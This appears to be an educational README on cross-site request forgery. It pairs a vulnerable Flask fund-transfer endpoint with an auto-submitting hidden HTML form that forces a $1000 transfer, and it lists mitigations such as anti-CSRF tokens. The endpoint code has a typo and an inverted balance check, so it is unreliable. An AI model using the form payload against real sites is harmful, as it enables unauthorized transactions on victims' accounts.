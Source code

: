 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/cross-site-request-forgery/main/cross-site-request-forgery.png"></p>

A threat actor may trick an authenticated or trusted victim into executing unauthorized actions on their behalf.

## Example #1
1. Threat actor crafts an exploit URL for a fund transfer from a vulnerable website
2. Bob logs in to the vulnerable website (Bob is authenticated - session cookie is saved)
3. Threat actor tricks Bob into clicking on the exploit URL
4. Bob clicks on the exploit URL
5. Bob's browser loads the session cookie and performs a fund transfer

## Code
#### Target-Logic
```py
@app.route("/send_money", methods=["POST"])
@login_required
def send_money():
   ...
   amount = int(request.form.get("amount"))
   to_user = get_user(int(reques.form.get("to_user")))
   if current_user:
      if current_user['balance'] <= amount:
         current_user['balance'] -= amount
         to_user['balance'] += amount
         return make_response({"transfer":"success"}, 200)
   return make_response({"transfer":"failed"}, 200)
```

#### Victim-Executes
```html
<html>
  <body>
    <form action="https://test.local/send_money" method="POST">
      <input type="hidden" name="amount" value="1000"/>
      <input type="hidden" name="to_user" value="ABC-999"/>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### Target-In
```
amount=1000
to_user=ABC-999
```

#### Target-Output
```json
{"transfer":"success"}
```

## Impact
Vary

## Risk
- Read & modify data
- Execute commands

## Redemption
- Header verification
- Challenge-response
- Anti-csrf tokens
- Same-site cookies

## Names
 - XSRF
 - Sea Surf
 - Session Riding
 - Cross-Site reference forgery
 - Hostile linking

## ID
776dd60c-c1de-46a3-a104-25cd836e24b6

## References
- [wiki](https://en.wikipedia.org/wiki/cross-site_request_forgery)
